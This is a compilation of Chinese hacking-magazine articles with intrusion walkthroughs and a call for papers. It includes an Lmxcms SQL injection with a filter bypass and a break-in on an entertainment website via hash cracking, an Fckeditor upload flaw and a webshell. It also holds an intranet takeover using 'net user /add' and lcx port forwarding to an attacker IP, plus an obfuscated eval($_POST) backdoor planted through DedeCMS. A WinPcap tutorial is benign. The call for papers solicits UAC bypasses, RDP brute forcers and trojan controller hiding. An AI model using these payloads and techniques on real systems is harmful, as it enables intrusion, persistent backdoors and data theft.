借助日志，我们可以得到哪一个用户向另外哪一个用户发送了邮件。既然知道了收件用户的名称，那么我们就可以直接去存储该用户信息的文件目录中读取该邮件，而这个时候，存储该用户的文件目录名就是用户的登录名称！看到了吗？此时，前面我们所说的利用用户名当做文件目录的机制，在这里被恶意利用了。
图 8 成功远程读取指定用户的任意邮件信息

到这里，我想大家已经足够明白 TurboMail 邮件系统这个远程 0day 的危害性到底有多大。程序的开发者似乎没有真正理解安全开发的实质，只是按照程序调用的关系来设立安全检查机制，没有想到用户越级调用文件。安全问题是一个整体，并不能简单地当做某一个点上的工作，希望 TurboMail 邮件系统的开发人员能够切实加强程序安全，做出更好、更强、更安全的产品，打造国内邮件系统知名品牌！

最后，本文旨在讨论安全技术，请不要利用文章中的安全漏洞进行任何违法行为，作者和杂志概不负责。

## Lmxcms SQL 注入漏洞

文/图 ywledoc

Lmxcms 搜索处存在注入漏洞，CMS 版本 V1.2，触发漏洞的 URL 如下：  
http://127.0.0.1/lmxcms_v1.2/index.php?m=Search&a=index&classid=5&tem=index&keywords=8888&field=title,keywords,description%27

漏洞代码如下：

```php
public function getSearchList($searchInfo,$is=false){
    $param = $this->sqlStr($searchInfo);
    $search_data = parent::selectModel($param);
```

- sqlStr 函数就是准备 SQL 查询语句，没有任何防范和过滤处理。
- CMS 的防范做得太简单了，这个漏洞可以注入的是 SQL 关键字，没有用双引号包含起来，很好注入。
- 以下是 Lmxcms CMS 过滤特殊字符的代码：

```php
function p($type=1,$pe=false,$sql=false,$mysql=false){
    if($type == 1){
        $data = $_POST;
    }else if($type == 2){
        $data = $_GET;
    }else{
        $data = $type;
    }
    if($sql) filter_sql($data);
    if($mysql) mysql_retain($data);
    foreach($data as $k => $v){
        if(is_array($v)){
            $newdata[$k] = p($v,$pe,$sql,$mysql);
        }else{
            if($pe){
                $newdata[$k] = string::addslashes($v);
            }else{
                $newdata[$k] = trim($v);
            }
        }
    }
    return $newdata;
}
```

```php
// 过滤非法提交信息，防止 SQL 注入
function filter_sql(array $data){
    foreach($data as $v){
        if(is_array($v)){
            filter_sql($v);
        }else{
            // 转换小写
            $v = strtolower($v);

            if(preg_match('/count|create|delete|select|update|use|drop|insert|info|from/', $v)){
                rewrite::js_back('【'.$v.'】数据非法');
            }
        }
    }
}


```

- CMS 对 p 函数的调用方法是 `$data = p(2,1,1);`，所以 mysql_retain 没有被调用；
- filter_sql 很容易用类似 `crea/**/te` 等方式绕过；
- 调用了 `addslashes`，但整个 SQL 语句“SELECT count(*) FROM lmx_product_data WHERE time > 1378985949 AND classid in(11,12,13,14,5) AND (title like '%88888%' or keywords like '%88888%' or description like '%88888%') ORDER BY id desc”（不包含双引号），注意红字是可控的。红字部分没有单引号包围，所以 addslashes 对这个语句没有防范效果。

漏洞证明截图如图 1 所示，的确存在此漏洞。
## 对某娱乐网站的一次安全检测

文/图 simeon

朋友准备参加国内某一节目选秀活动，将栏目网站发过来，让我看一下。对该网站进行安全渗透测试，结果发现该网站早就被渗透过，这也印证了：只要在互联网上，没有不被攻击的目标。本次检测的站点在技术上面有一些特殊，主要在于思路方面。下面将整个过程撰文分享。

### 发现 SQL 注入点

在浏览器中输入网站地址：“http://www.somesite.com/xqdw/show_xqdw.asp?id=280”，在最末尾加入一个单引号，获取到以下错误提示信息：

```text
Microsoft OLE DB Provider for SQL Server 错误 '80040e14'
字符串 '280' 后的引号不完整。
/xqdw/show_xqdw.asp，行 7


```

### 获取数据库信息

很明显，该网站架构为 IIS+MSSQL+ASP，该地址存在 SQL 注入漏洞。将该地址复制到 Pangolin 进行扫描，如图 1 所示，成功获取数据库的基本信息。数据库为 SQL Server 2005，数据库权限为 db_owner，无法直接通过 sa 提权获取服务器权限。
图 1 获取数据库等信息

### 获取管理员账号和密码

通过 Pangolin 选择默认数据库，获取管理员表，猜解管理账号和密码，获取账号和密码信息：admin|63641ad07f2bdf3e 和 ztz|53022d86c6ae8970。通过 cmd5.com 成功破解该账号密码：admin/tj***zh、ztz/138*******18。获取管理员密码后，通过扫描软件获得的后台系统提示无法登录，访问后台地址就显示“发现一个不可以预料的错误”，如图 2 所示。猜测原因有两个：一个是程序存在错误，另外一个就是后台地址不对。
图 2 无法登录后台地址

### 查看网站真实路径和文件名称等信息

由于存在的 SQL 注入点为 db_owner 权限，因此可以获取服务器上文件名称等信息，即可以列目录，如图 3 所示。依次对 C 盘、D 盘、E 盘、F 盘等进行列目录查看，最终获取该网站运行的真实路径为“F:\wode\Tx\”。
图 3 获取网站真实路径

### 获取后台管理地址和权限

获取后台管理地址：http://www.somesite.com/xk_m***ge_new/xh_login.asp，将获取的管理员用户名和密码进行登录，成功进入后台，如图 4 所示。系统是在 oblog 上进行的二次开发。通过分析后台功能，发现存在文件上传功能，但无法上传插入一句话后门的图片，如图 5 所示，提示有错误。
图 4 获取后台管理权限
图 5 无法上传图片

### 利用 Fckeditor 编辑器漏洞获取 webshell

通过后台无法获取 webshell，继续回到 Pangolin 界面，对网站目录和文件进行分析，如图 6 所示，发现网站采用了 Fckeditor 编辑器。既然是 Fckeditor 编辑器，在浏览器中输入利用地址：http://www.somesite.com/xk_m***ge_new/fck/editor/filemanager/browser/default/browser.html?type=Image&connector=connectors/asp/connector.asp，如图 7 所示，先新建一个 1.asp 的文件夹，然后再上传图片后门。
图 6 获取 Fckeditor 编辑器信息
图 7 上传图片后门

### 获取 WebShell 权限

通过分析真实图片地址，如图 8 所示，获取 Fckeditor 编辑器上传的真实路径 http://www.somesite.com/fupload/Image，然后通过菜刀对后门地址进行连接，如图 9 所示，成功获取 webshell 权限。
图 8 获取图片真实地址
图 9 获取 webshell 权限

## 内网渗透之一：内网初探

文/图 佚名

内网渗透在攻击层面，其实更趋向于社工和常规漏洞检测的结合。为了了解网内防护措施的设置，需要通过一步步的刺探和经验积累；有时判断出错，也会进入误区。但是如果能在网内进行嗅探，则能事半功倍，处于一个对网内设置完全透明的状态。本文将从一个弱口令引发的突破，到控制整个内网的全过程，来跟大家讨论内网的渗透嗅探术和安全防护的一些内容。

在寻找突破时，更多的是从应用服务入手，而应用服务最直观的信息采集就是端口扫描。不同的应用，开放的服务不一样。所以，在对网络进行信息收集时，大概分为这样两步：

- 端口探测
- 程序指纹分析

在端口探测方面，个人喜欢用 nmap 来快速对网段里的应用进行判断，如图 1 所示。
图 1

在掌握端口信息后，就要对服务应用程序的指纹进行分析，主要包括版本号、已知的漏洞信息、常规配置信息、针对该应用流行的攻击方法等。本文试着对网内一台提供 Web 服务和 FTP 服务的主机作为突破口，提交一个请求，如图 2 所示。
图 2

从图中大致可以判断以下信息：Web 服务器为 Apache 服务器，能解析 PHP 脚本。

接着提交 http://171.214.44.56/index.php、http://171.214.44.56/index.Php，发现此站点的 phpinfo 信息，如图 3 所示。
图 3

通过大小写字符测试说明操作系统的类型为 Windows。当然，以上只是很简单的手工对程序指纹进行分析，针对 Web 应用的扫描器还有很多，比较常用的 wvs、appscan 等。通过这些简单的信息收集后，可以了解到网站架构是 Apache+MySQL+PHP。

下面我们针对 FTP 进行弱口令扫描，打开 hscan，如图 4 所示，成功扫描到 FTP 弱口令。
图 4

FTP 登录，发现其目录正是 Web 目录，上传我们的 PHPshell，如图 5 所示。
图 5

Apache 默认的权限是 system 的权限，我们尝试添加账户：`net user admin xiaochaoge /add`，添加账户失败，不知道是什么原因。更换一下密码，换个更复杂的密码试试：`net user admin xiaochaoge@$2312 /add`，显示结果如图 6 所示，提示密码超过了 14 个字符。重新试试：`net user admin xiaochaoge@$23 /add`，添加账户成功。
图 6

再把账户添加到 administrators 组，3389 登录失败，一查 `ipconfig`，原来处于内网中，如图 7 所示。
图 7

马上上传我们的 lcx.exe 进行端口转发。本机：`lcx -listen 2222 3333`，2222 为转发端口，3333 为本机任意未被占用的端口，如图 8 所示。
图 8

```
肉鸡：lcx -slave 119.75.217.56 2222 171.214.44.56 3389


```

119.75.217.56 为本机 IP，2222 为转发端口，171.214.44.56 为肉鸡 IP，3389 为远程终端端口。本地连接 127.0.0.1:3333，如图 9 和图 10 所示。原来是一台域控，输入账户和密码即可成功登录。
图 9
图 10

我在登录主机之后，都习惯看管理员装了些什么软件，有什么密码可以利用之类的。这个基本上是体力活，结果在桌面上发现 id_rsa.ppk，不过我不知道这个是用来做什么的，后来咨询了一下别人，原来是用来远程登录 Linux 主机的。

## DedeCMS v5.7 SP1 可隐藏后门漏洞研究

文/图 赵显阳（www.isafe.cc）

DedeCMS V5.7 是一套开源的内容管理系统，经过笔者研究，发现一个可以隐藏后门的漏洞。实现后，后门比较隐蔽，不容易被发现。研究该 CMS 需要一些基本的知识，如 PHP 脚本语言、SQL 语句、DedeCMS 开发相关。

要成功利用本文所介绍的方法，要求必须具备 DedeCMS 系统的普通会员权限和后台管理员权限。

首先注册一个普通会员，注册链接为：http://test.isafe.cc:2217/DedeCMS_GBK_5.7_SP1/member/index_do.php?fmdo=user&dopost=regnew，用户名：isafe.cc，密码：isafe.cc。注册后登录，登录链接为：http://test.isafe.cc:2217/DedeCMS_GBK_5.7_SP1/member/index.php。登录后发布一个软件，如图 1 所示。
图 1

发布成功后，查看其 aid：http://test.isafe.cc:2217/DedeCMS_GBK_5.7_SP1/plus/view.php?aid=110，发布的软件 aid 为 110。现在转到管理后台，在左侧菜单的系统里找到“SQL 命令行工具”，如图 2 所示。

图 2

在“运行 SQL 命令”里输入  
`update dede_addonsoft set softlinks='{dede:link}{/dede:link}{dede:b_text\\\'=x\'};phpinfo();//}www.isafe.cc;{/dede:b}' where aid=110;`，aid 为 110，执行后，如图 3 所示。

成功执行 1 个 SQL 语句！

返回信息：

图 3

然后访问链接 `http://test.isafe.cc:2217/DedeCMS_GBK_5.7_SP1/plus/view.php?aid=110`，会提示“文章尚未审核，非作者本人无权查看！”。不用急，现在来开通权限，在 DedeCms 后台“会员->注册会员列表”中点击“文档”，如图 4 所示。

图 4

在新打开的窗口中，开放文档的浏览权限，如图 5 所示。

图 5

此时再访问 `http://test.isafe.cc:2217/DedeCMS_GBK_5.7_SP1/plus/view.php?aid=110`，PHP 代码就可以执行了，如图 6 所示。

图 6

```sql
update dede_addonsoft set softlinks='{dede:link}{/dede:link}{dede:b_text\\\'=x\'};phpinfo();//}www.isafe.cc;{/dede:b}' where aid=110;
```

```sql
update dede_addonsoft set softlinks='{dede:link}{/dede:link}{dede:b_text\\\'=x\'};eval(chr(101).chr(118).chr(97).chr(108).chr(40).chr(34).chr(36).chr(95).chr(80).chr(79).chr(83).chr(84).chr(91).chr(99).chr(93).chr(59).chr(34).chr(41).chr(59));//}www.isafe.cc;{/dede:b}' where aid=110;
```

在“SQL 命令行工具”中执行，就是一个比较隐藏的后门了。通过访问 `http://test.isafe.cc:2217/DedeCMS_GBK_5.7_SP1/plus/view.php?aid=110`，密码 c 就可以执行任意命令了，如图 7 所示。

图 7

这种隐藏后门的方法不容易被管理员发现，在实战中具有一定的使用价值。

（完）

## 利用 WinPcap 获取数据包与设备列表

文/图 xfeng

WinPcap 是 Windows 平台下访问网络数据链路层的开源库，它允许应用程序绕开网络协议栈来捕获与发送网络数据包，并具备其他有用的特性，诸如内核空间的数据包过滤、网络统计引擎等。在使用 WireShark 之类的网络分析器时，都会直接调用 WinPcap 库。本文将使用 WinPcap 软件库来演示网络分析各方面的基础知识，同时借助于 WinPcap 来分析如何具体设计与实现网络分析软件工具。

## WinPcap 相关知识

大多数网络应用程序是通过被广泛使用的操作系统组件来访问网络的，如 socket。由于操作系统已经处理了底层的细节问题（如协议的处理、数据包的封装等），并提供了与读写文件类似的、熟悉的函数接口，因此使用该方法可很容易地访问网络中的数据。然而有些时候，这种“简单的方式”并不能满足任务要求，因为有些应用程序需要直接访问网络中的数据包。也就是说，应用程序需要访问网络中的“原始”数据包，即没有被操作系统使用网络协议处理过的数据包。

### 1. WinPcap 基础功能分析

WinPcap 就是 Windows 平台下用于数据包捕获与网络分析的一个架构。WinPcap 的目的就是为 Windows 平台的应用程序提供访问方式，其主要功能包括：捕获原始数据包，根据用户指定的规则过滤数据包，将原始数据包发送到网络上，收集网络流量与网络状态的统计信息等。WinPcap 包含一个内核空间数据包过滤器（Netgroup Packet Filter，NPF）、一个底层动态链接库（Packet.dll）和一个高层并独立于系统的动态链接库（wpcap.dll）。

作为一款开源软件，WinPcap 具有性能高、应用广、使用便捷、可移植等优点。许多类型的网络工具软件都会使用 WinPcap，比如具有网络分析功能、可解决网络纷争的网络安全或监视工具软件。比如，类似 WireShark 之类的网络分析器，都会直接调用 WinPcap 库。这样，WireShark 就可主要负责协议解析与图形界面显示相关的工作，而性能问题就由 WinPcap 库来负责处理。

为了能够访问网络上传输的原始数据，数据包捕获系统需要绕过操作系统的协议栈。而这就需要有一部分程序运行在操作系统的内核中，才能与网络接口驱动直接交互。在 WinPcap 中，与操作系统密切相关的是一个叫做 NPF（Netgroup Packet Filter）的设备驱动程序，同时 WinPcap 还对多种 Windows 操作系统提供了不同版本的驱动程序。WinPcap 提供了数据包捕获与发送的基本功能，同时也提供了更高级的功能，诸如一个可编程的数据包过滤系统、一个网络监视引擎等。

为了让用户层应用程序能够使用内核驱动所提供的功能，数据包捕获系统则必须导出相关的接口。对此，WinPcap 提供两个不同层次的动态链接库：Packet.dll 与 wpcap.dll。Packet.dll 库提供底层的 API，用来直接访问驱动程序的函数，以便提供独立于微软公司不同操作系统的编程接口。wpcap.dll 库导出了更强大的、更高层的捕获函数接口，并提供了与 UNIX 捕获库 libpcap 的兼容性。这两个库可使数据包的捕获独立于底层网络硬件与操作系统。

WinPcap 在系统各层面上的主要组成部分如图 1 所示。

图 1 WinPcap 在操作系统各层面的主要组成部件

### 2. 深入理解 WinPcap 的驱动程序

WinPcap 的体系结构如图 2 所示，其中 NPF 是 WinPcap 的内核组件，用来处理网络上传输的数据包，并对用户层导出数据包捕获、发送与分析的能力。下面将描述一下 NPF 与操作系统及其他基础组件的交互操作。

图 2 WinPcap 的体系结构

前面说过，WinPcap 的 NPF 作为一个协议驱动程序被实现。从性能的角度来说，这可能并不是最好的选择，但是其允许与 MAC 层具有合理的独立，同时也能完全访问原始的网络流量。NPF 在内核中的位置如图 3 所示。

图 3 NPF 在内核中的位置

正常情况下协议驱动程序与操作系统的交互是异步的。这意味着驱动程序提供了一个回调函数集，当有一些操作需要 NPF 处理时它就会被操作系统调用。NPF 会为应用程序的所有 I/O 操作（open、close、read、write、ioctl 等）导出对应的回调函数。

同样，协议驱动程序与网络驱动程序接口规范（NDIS）库的交互也是异步的。例如一个新数据包到来的事件就是通过一个回调函数（此时为 Packet_tap()）通知 NPF 的。此外，NDIS 与 NIC 驱动程序的交互总是依靠非阻塞函数而发生的：当 NPF 调用一个 NDIS 函数时，该调用立即返回；当处理结束时，NDIS 调用一个特定的 NPF 完成函数来通告该函数已经完成。驱动程序为任何底层的操作（如发送数据包、对 NIC 设置或请求参数等）导出一个对应的回调函数。

## 案例分析：捕获网络数据包与设备列表

在网络上，数据包通过物理网络接口卡（Network Interface Card，NIC）与对应设备驱动程序被传递到操作系统的内核空间，接着对应的协议驱动程序（对 WinPcap 而言就是 NPF 内核驱动）将会处理所接收的数据包，然后相应的应用程序获得该数据包，做进一步的应用处理，比如解析数据包内容并显示出来等。数据包从 NIC 到应用程序的传输路径如图 4 所示。

图 4 数据包从 NIC 到应用程序的传输路径

下面将详细描述从网络上捕获一个数据包，然后传递给应用程序的过程。

- 1. **网卡与 NIC 设备驱动**

现代网络接口卡板载内存的数量通常限制为几千字节。在不依赖主机工作能力的情况下，这些内存在全连接速度（full link speed）下需要满足数据包的接收与发送需求。此外，当数据包被存储于板载内存中时，NIC 就会执行一些初步的检查，诸如检查 CRC 错误、过短的以太网数据包，因此，无效的数据包可以立即被丢弃。

一个有效的数据包被 NIC 接收后，将对总线控制器产生一个总线数据传输请求。此时，NIC 控制了总线，传输数据包到主机主内存的 NIC 缓冲区中，接着释放总线，产生一个硬件中断给高级可编程中断控制器（Advanced Programmable Interrupt Controller，APIC）芯片。该芯片唤醒操作系统的中断处理例程（OS interrupt handling routine），它会触发 NIC 设备驱动程序的中断服务程序（ISR）。

在一个写得很好的设备驱动程序中，其 ISR 只做很少的事情。最基本的事情是，检查该中断是否是它自己要处理的（在 x86 机器中一个中断可被多个设备共享），并做出应答。接着，ISR 调度一个较低优先级的函数（称作延迟过程调用，deferred procedure call，DPC），该函数稍后处理硬件请求并告知上层驱动程序（如协议层的驱动程序、数据包捕获驱动程序）一个数据包被接收了。当没有中断被挂起时 CPU 将处理 DPC 例程，而当 NIC 设备驱动程序正在执行处理时，来自 NIC 的中断会被禁用，因为在处理下一个服务前上一个数据包的处理必须完成。此外，既然中断的产生是一个耗费很大的操作，所以现在的 NIC 会允许多个数据包被送入一个中断的上下文中，因此上层驱动程序每次激活时要能够处理多个数据包。

- 2. **数据包捕获驱动**

数据包捕获组件主要完成数据包的过滤操作，并把合适的数据包存储在内核缓冲区中，以便用户层的应用程序获取所需的数据包，同时还提供内核空间与用户空间进行交互的系统接口的具体实现。通常，数据包捕获组件对其他的软件模块（如协议栈）是透明的，它并不会对标准的系统行为带来影响。它们仅仅是在系统中插入一个钩子——通常使用一个回调函数实现——只要有新的数据包从网络上到来，它就会被告知。

在 WinPcap 中，数据包捕获组件作为一个网络协议驱动程序被实现，即 NPF。对应的回调函数为 NPF_tap 函数，该函数执行的第一步就是对所接收的数据包执行过滤操作，接着把符合过滤条件的数据包放置到一个内核环形缓冲区中，等待应用程序读取数据包。

用户空间的应用程序使用 wpcap.dll 库（wpcap.dll 库的功能由 Packet.dll 库支持）提供的接口函数可方便地从内核驱动处读取数据包，从而完成所需的功能。

### 3. 获得已连接的网络适配器设备列表

通常，编写基于 WinPcap 的应用程序第一件事情，就是获得已连接的网络适配器设备列表，同时在程序结束时确保释放了所获取的设备列表。WinPcap 通过内核空间与用户空间各函数之间的相互配合，来完成网络适配器设备列表的获得与释放操作。WinPcap 可以获得本地主机、远程主机及文件这三种类型的适配器设备列表。本文重点关注获得与释放本地主机适配器设备列表的实现细节。

为了获得与释放已连接的网络适配器设备列表，wpcap.dll 库提供了下列函数：

```c
int pcap_findalldevs(pcap_if_t **alldevsp, char *errbuf);
/* 函数返回所找到的适配器列表 */
```

```c
int pcap_findalldevs_ex(char *source,
    struct pcap_rmtauth *auth, pcap_if_t **alldevs, char *errbuf);
/* 函数返回所找到的适配器列表 */
```

```c
void pcap_freealldevs(pcap_if_t *alldevsp);
/* 释放适配器列表 */
```

此处所涉及的重要结构体分析如下。

函数 pcap_findalldevs_ex 和 pcap_findalldevs 分别返回 pcap_if_t 类型的列表 alldevs 和 alldevsp。每个 pcap_if_t 结构体实例都包含着一个适配器的详细信息。其中成员 name 和 description 分别表示一个适配器的名称和一个更容易让人理解的描述。pcap_if_t 结构体的具体定义如下：

```c
typedef struct pcap_if pcap_if_t;

struct pcap_if {
    /* 如果不为 NULL，则指向列表的下一个元素。如果为 NULL，则为列表尾部 */
    struct pcap_if *next;

    /* 给 pcap_open_live 函数传递的一个描述设备名称的字符串指针 */
    char *name;

    /* 如果不为 NULL，则指向描述设备的一个可读字符串 */
    char *description;

    /* 一个指向接口地址列表第一个元素的指针 */
    struct pcap_addr *addresses;

    /*
     * PCAP_IF_ 接口标志。当前仅有的可能标志为 PCAP_IF_LOOPBACK，
     * 如果接口是回环，则设置该标志
     */
    bpf_u_int32 flags;
};
```

其中结构体 pcap_addr 表示接口地址的信息，具体定义如下：

```c
typedef struct pcap_addr pcap_addr_t;

struct pcap_addr {
    struct pcap_addr *next;     /* 指向下一个元素的指针 */
    struct sockaddr *addr;      /* IP 地址 */
    struct sockaddr *netmask;   /* 网络掩码 */
    struct sockaddr *broadaddr; /* 广播地址 */
    struct sockaddr *dstaddr;   /* P2P 目的地址 */
};
```

下面的示例代码将获取适配器的列表，并在屏幕上显示出来，在程序结束时释放设备列表。如果没有找到适配器，将打印错误信息。

```c
#define WIN32
#define HAVE_REMOTE

#include <stdio.h>
#include "pcap.h"

int main()
{
    pcap_if_t *alldevs;
    pcap_if_t *d;
    int i = 0;
    char errbuf[PCAP_ERRBUF_SIZE];

    /* 获取本地机器的设备列表 */
    if (pcap_findalldevs_ex(PCAP_SRC_IF_STRING, NULL, &alldevs, errbuf) == -1)
    {
        // 获取设备列表失败，程序返回
        fprintf(stderr, "Error in pcap_findalldevs_ex: %s\n", errbuf);
        exit(1);
    }

    /* 打印设备列表 */
    for (d = alldevs; d != NULL; d = d->next)
    {
        printf("%d. %s", ++i, d->name);
        if (d->description)
            printf(" (%s)\n", d->description);
        else
            printf(" (No description available)\n");
    }

    if (i == 0)
    {
        // 没找到设备接口，确认 WinPcap 已安装，程序退出
        printf("\nNo interfaces found! Make sure WinPcap is installed.\n");
        return -1;
    }

    /* 不再需要设备列表了，释放它 */
    pcap_freealldevs(alldevs);

    return 0;
}


```

在获取适配器的列表时要记住以下几点。首先，pcap_findalldevs_ex 函数和其他函数一样，有一个 errbuf 参数，一旦发生错误，这个参数将会被写入字符串类型的错误信息中。其次，不是所有的操作系统都支持 WinPcap 提供的网络程序接口，因此，如果想编写一个可移植的应用程序，就必须考虑在什么情况下 description 是 null。在本程序中遇到这种情况时，会打印提示语句“(No description available)”。最后要记住，当设备列表使用完毕后，要调用 pcap_freealldevs 函数将其占用的内存资源释放掉。

在一台安装 Windows 操作系统的电脑上，运行该程序得到的结果如下所示：

- 1. `rpcap://\Device\NPF_GenericDialupAdapter (Network adapter 'Adapter for generic dialup and VPN capture' on local host)`
- 2. `rpcap://\Device\NPF_{349D565F-235A-4B5C-8B9E-AB3B347EC200} (Network adapter 'Marvell Yukon Ethernet Controller. (Microsoft's Packet Scheduler)' on local host)`

正如大家所看到的，Windows 平台下网络适配器的名称读起来相当费力，可见解释性的描述是很有帮助的。事实上，WinPcap 提供了获得网络设备的其他更高级的信息。由 pcap_findalldevs_ex 函数返回的每一个 pcap_if 结构体，都包含一个 pcap_addr 结构体。程序对每一个由 pcap_findalldevs_ex 函数返回的 pcap_if，都通过调用 ifprint 函数来实现打印。

可见，进行网络数据分析时，可以从架构角度来熟悉 WinPcap 库，理解操作系统、NPF、Packet.dll 与 wpcap.dll 之间的关系，便于对后续的内容具有更清晰、宏观的认识。除此之外，WinPcap 还提供了数据包发送、数据包过滤器、网络状态统计、数据包文件存储与读取等功能。详细了解 WinPcap 的应用与体系架构，对进行网络数据分析将会起到事半功倍的效果。

（完）

### 2014 年第 10 期杂志特约选题征稿

黑客防线于 2013 年推出新的约稿机制，每期均会推出编辑部特选的选题，涵盖信息安全领域的各个方面。对这些选题有兴趣的读者与作者，可联系投稿信箱：**675122680@qq.com**、**hadefence@gmail.com**，或者 QQ：675122680，确定有意的选题。按照要求如期完成稿件者，稿酬按照最高标准发放！特别优秀的稿酬另议。第 10 期部分选题如下，完整的选题内容请见每月发送的约稿邮件。

### 1. 绕过 Windows UAC 的权限限制

自本期始，黑客防线杂志长期征集有关绕过 Windows UAC 权限限制的文章（已知方法除外）。

- 1) Windows UAC 高权限下，绕过 UAC 提示进入系统的方法；
- 2) Windows UAC 低权限下，进入系统后提高账户权限的方法。

### 2. 虚拟机穿透

主机安装有虚拟机，现已远程控制虚拟机，寻求如何利用虚拟机的弱点，穿透虚拟机，进而控制本机的方法。

### 3. 同步下载邮件

假设本机当前系统已掌控，在用户登录 Web 邮箱时，能够自动后台同步下载邮件并保存，包括收件箱、发件箱、已发送邮件、联系人等信息，优先实现 gmail、yahoo 信箱。

### 4. Windows7 屏幕保护密码获取

非重启系统状态下，本机（非远程受控机）屏幕保护已启动，本地获取 Windows7 屏幕保护密码的方法。

### 5. 暴力破解 3389 远程桌面密码

- 要求：
  - 1) 针对 Windows 3389 远程桌面实现暴力破解密码；
  - 2) 读取指定的用户名和密码字典文件；
  - 3) 采用多线程；
  - 4) 所有函数都必须判断错误值；
  - 5) 使用 VC++2008 编译工具实现，控制台程序；
  - 6) 代码写成 C++ 类，直接声明类，调用类成员函数就可以调用功能；
  - 7) 支持 Windows XP/2003/7/2008。

### 6. WEB 服务器批量扫描破解

- 1）针对目标 IP 参数要求
  - 10.10.0.0/16
  - 10.10.3.0/24
  - 10.10.1.0-10.255.255.255
- 2）针对目标 Web 服务器扫描要求
  - 可以识别目标 Web 服务器上运行的 Web 服务器程序，比如 APACHE 或者 IIS 等，具体参考如下：
  - Tomcat、Weblogic、Jboss
  - Apache、JOnAS、WebSphere
  - Lotus Server、IIS(Webdav)、Axis2
  - Coldfusion、Monkey HTTPD、Nginx
- 3）针对目标 Web 服务器后台扫描  
  针对目标进行后台地址搜索。
- 4）针对目标 Web 后台密码破解  
  搜索到 Web 登录后台以后，尝试弱口令破解，可以指定字典。

### 7. 木马控制端 IP 地址隐藏

要求：

- 1）在远程控制配置 server 时，一般情况下控制地址是写入被控端的，当木马样本被捕获分析时，可以分析出控制地址。针对这个问题，研究控制端地址隐藏技术，即使木马样本被捕获，也无法轻易发现木马的控制端真实地址。
- 2）使用 C 或 C++ 语言，VC6 或者 VC2008 编译工具实现。

### 8. Web 后台弱口令暴力破解

说明：

针对国际常用建站系统以及自编写的 WEB 后台无验证码登录形式的后台弱口令账密暴力破解。

要求：

- 1）能够自动或自定义抓取建站系统后台登录验证脚本 URL，如 WordPress、Joomla、Drupal、MetInfo 等常用建站系统；
- 2）根据抓取提交账密的 URL，可自动或自定义选择提交方式，自动或自定义提交登录的参数，这里的自动指的是根据默认字典；
- 3）可自定义设置暴力破解速度，破解的时候需要显示进度条；
- 4）高级功能：默认字典跑不出来的后台，可根据设置相应的 GOOGLE、BING 等搜索引擎关键词，智能抓取并分析是否是后台以及自动抓取登录 URL 及其参数；默认字典跑不出来的账密可通过 GOOGLE、BING 等搜索引擎抓取目标相关的用户账户、邮箱账户，并以这些账户简单构造爆破账密，如用户为 admin，密码可自动填充为域名，用户为 abcd@abcd.com，账户密码就可以设置为 abcd、abcd 以及 abcd、abcd123 或 abcd、abcd123456 等简单账密；
- 5）拓展：尽可能地多搜集国外常用建站系统后台来增强该软件查找并定位后台 URL 能力；暴力破解要稳定，后台 URL 字典以及账密字典可自定义设置等。

### 9. 编写端口扫描器

要求：

- 1）扫描出目标机器开放的端口，支持 TCP Connect、SYN、UDP 扫描方式；
- 2）扫描方式采用多线程，并能设置线程数；
- 3）将功能编写成 DLL，导出功能函数；
- 4）代码写成 C++ 类，直接声明类，调用类成员函数就可以调用功能；
- 5）尽量多做出错异常处理，以防程序意外崩溃；
- 6）使用 VC++2008 编译工具编写；
- 7）支持系统 Windows XP/2003/2008/7。

### 10. Android WIFI Tether 数据转储劫持

说明：

WIFI Tether（开源项目）可以在 ROOT 过的 Android 设备上共享移动网络（也就是我们常说的 Wi‑Fi 热点），请参照 WIFI Tether 实现一个程序，对流经本机的所有网络数据进行分析存储。

要求：

- 1）开启 WIFI 热点后，对流经本机的所有网络数据进行存储；
- 2）不同的网络协议存储为不同的文件，比如 HTTP 协议存储为 HTTP.DAT；
- 3）针对 HTTP 下载进行劫持，比如用户下载 www.xx.com/abc.zip，软件能拦截此地址并替换 abc.zip 文件。

### 11. 突破 Windows7 UAC

说明：

编写一个程序，绕过 Windows7 UAC 提示，启动另外一个程序，并使这个程序获取到管理员权限。

要求：

- 1）Windows UAC 安全设置为最高级别；
- 2）系统补丁打到最新；
- 3）支持 32 位和 64 位系统。

## 2014 年征稿启示

《黑客防线》作为一本技术月刊，已经 14 年了。这十多年以来基本上形成了一个网络安全技术坎坷发展的主线，陪伴着无数热爱技术、钻研技术、热衷网络安全技术创新的同仁们实现了诸多技术突破。再次感谢所有的读者和作者，希望这份技术杂志可以永远陪你一起走下去。

投稿栏目：

### 首发漏洞

要求原创必须首发，杜绝一切二手资料。主要内容集中在各种 0Day 公布、讨论，欢迎第一手溢出类文章，特别欢迎主流操作系统和网络设备的底层 0Day，稿费从优，可以洽谈深度合作。有深度合作意向者，直接联系总编辑 binsun20000@hotmail.com。

### Android 技术研究

黑防重点栏目，对 Android 系统的攻击、破解、控制等技术的研究。研究方向包括 Android 源代码解析、Android 虚拟机，重点欢迎针对 Android 下杀毒软件机制和系统底层机理研究的技术和成果。

### 本月焦点

针对时下的热点网络安全技术问题展开讨论，或发表自己的技术观点、研究成果，或针对某一技术事件做分析、评测。

#### 漏洞攻防

利用系统漏洞、网络协议漏洞进行的渗透、入侵、反渗透、反入侵，包括比较流行的第三方软件和网络设备 0Day 的触发机理，对于国际国内发布的 PoC 进行分析研究，编写并提供优化的 exploit 的思路和过程；同时可针对最新爆发的漏洞进行底层触发、shellcode 分析以及对各种平台的安全机制的研究。

### 脚本攻防

利用脚本系统漏洞进行的注入、提权、渗透；国内外使用率高的脚本系统的 0Day 以及相关防护代码。重点欢迎利用脚本语言缺陷和数据库漏洞配合的注入以及补丁建议；重点欢迎 PHP、JSP 以及 HTML 边界注入的研究和代码实现。

### 工具与免杀

巧妙的免杀技术讨论；针对最新 Anti 杀毒软件、HIPS 等安全防护软件技术的讨论。特别欢迎突破安全防护软件主动防御的技术讨论，以及针对主流杀毒软件文件监控和扫描技术的新型思路对抗，并且欢迎在源代码基础上免杀和专杀的技术论证！最新工具，包括安全工具和黑客工具的新技术分析，以及新的使用技巧的实力讲解。

### 渗透与提权

黑防重点栏目。欢迎非 Windows 系统、非 SQL 数据库以外的主流操作系统的渗透、提权技术讨论，特别欢迎内网渗透、摆渡、提权的技术突破。一切独特的渗透、提权实例均在此栏目发表，杜绝任何无亮点技术文章！

### 溢出研究

对各种系统包括应用软件漏洞的详细分析，以及底层触发、shellcode 编写、漏洞模式等。

### 外文精粹

选取国外优秀的网络安全技术文章，进行翻译、讨论。

#### 网络安全顾问

